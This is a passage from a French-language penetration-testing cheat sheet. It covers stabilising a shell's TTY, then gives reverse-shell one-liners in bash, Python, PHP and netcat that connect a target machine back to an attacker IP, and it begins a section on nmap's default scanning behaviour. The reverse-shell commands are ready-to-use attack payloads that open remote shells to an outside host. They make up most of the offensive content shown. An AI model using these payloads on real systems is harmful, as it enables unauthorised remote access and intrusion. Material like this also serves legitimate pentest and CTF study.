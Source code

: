 2. Sur l'attaquant
```
$ stty raw -echo
$ fg
```
3. Sur la cible
```
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# 6) Reverse Shells (cible vers nous)
## BASH
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## Netcat 
1. Ouvrir un port sur la machine attaquante
```
nc -lvp 4444
```
3. Connecter un shell sh vers le port de la machine attaquante
```
nc -e /bin/sh [IP_ATTAQUANT] [PORT]
```
❗️ Toutes les machines n'ont pas netcat avec l'option -e


# 7) Reconnaissance active

## 1) Nmap
### Comportement de base de nmap
- **Ports**: Par défaut, Nmap scanne les 1 000 ports TCP les plus couramment utilisés.
- **Vitesse**: Si aucune option de timing n'est spécifiée, Nmap choisit un timing basé sur le réseau et la cible. L'option `-T3` est généralement le niveau de timing par défaut.
- **Scripts**: Les scripts ne sont pas exécutés par défaut. Vous devez utiliser `-sC` ou `--script` pour spécifier les scripts que vous voulez exécuter.
- **Technique de scan**: Nmap utilisera le scan SYN (ou "half-open" scan) par défaut si exécuté en tant que root. Sinon, il utilise le scan connect(). Le scan SYN est plus rapide et moins intrusif que le scan connect(), car il n'établit jamais de connexion complète.
